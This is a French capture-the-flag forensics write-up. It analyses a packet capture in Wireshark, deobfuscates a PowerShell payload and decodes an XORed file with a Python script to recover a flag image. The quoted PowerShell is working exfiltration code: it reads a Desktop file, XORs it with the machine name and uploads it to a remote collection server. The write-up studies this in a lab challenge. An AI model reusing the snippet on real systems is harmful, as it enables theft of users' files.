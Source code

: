 # Write-Up - Forensic / Sodastream

On est face à un challenge de forensique réseau avec un fichier `.pcapng` :

```bash
file sodastream-capture.pcapng
sodastream-capture.pcapng: pcapng capture file - version 1.0
```

On l'ouvre dans Wireshark et on inspecte les protocoles réseaux utilisés :

![protocols-stats](./wu/protocols-stats.png)

On a principalement des paquets TCP dans notre capture avec un gros blob de data transmis en HTTP.

Si on filtre sur le protocole HTTP, on peut voir seulement 8 paquets.
Un `GET /payload.ps1` et un `POST /upload` attirent notre attention.

Pour obtenir la vue suivante, on clique droit sur notre requête GET et sur Suivre flux HTTP :

![get-payload](./wu/get-payload.png)

On est face à un script Powershell obfusqué (avec `Invoke-Stealth` pour les curieux).
On peut chercher à le déchiffrer à la main mais un LLM peut aussi nous le faire rapidement: 

```powershell
$targetPath = "$env:USERPROFILE\Desktop\secret_file"

if ($env:COMPUTERNAME -eq "WINDOWS-1") {
    # Clé de chiffrement = nom de la machine en UTF8
    $key = [System.Text.Encoding]::UTF8.GetBytes($env:COMPUTERNAME)

    # Lecture du fichier à exfiltrer
    $data = [System.IO.File]::ReadAllBytes($targetPath)

    # Application d’un XOR byte-à-byte avec la clé
    $encoded = New-Object byte[] ($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $encoded[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }

    # Envoi des données chiffrées vers le serveur de collecte
    $uploadUri = "http://10.50.20.16/upload"
    $webClient = New-Object System.Net.WebClient
    $webClient.UploadData($uploadUri, $encoded) | Out-Null
}
```

Il se trouve que le script upload une image vers un serveur distant.
Nous n'avons pas accès à la ressource locale `secret_file` mais uniquement au fichier XORé envoyé sur le C2.

![schema-archi](./wu/schema-archi.png)

On fait `Fichier > Exporter Objets > HTTP` pour extraire un fichier `upload`.
Ensuite, on va unXOR le fichier avec la clé qui est le nom de l'ordinateur, soit `WINDOWS-1` :

```python
#!/usr/bin/env python3
def unxor_file(input_path, output_path, key_str):
    key = key_str.encode('utf-8')
    with open(input_path, 'rb') as f:
        data = f.read()

    decoded = bytearray(len(data))
    for i in range(len(data)):
        decoded[i] = data[i] ^ key[i % len(key)]

    with open(output_path, 'wb') as f:
        f.write(decoded)

if __name__ == '__main__':
    input_file = 'upload'
    output_file = 'decoded_output'
    key = 'WINDOWS-1'
    unxor_file(input_file, output_file, key)
```

Le fichier écrit est une image :

```bash
file decoded_output
decoded_output: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 503x496, components 3
```

En l'ouvrant on peut voir notre flag.
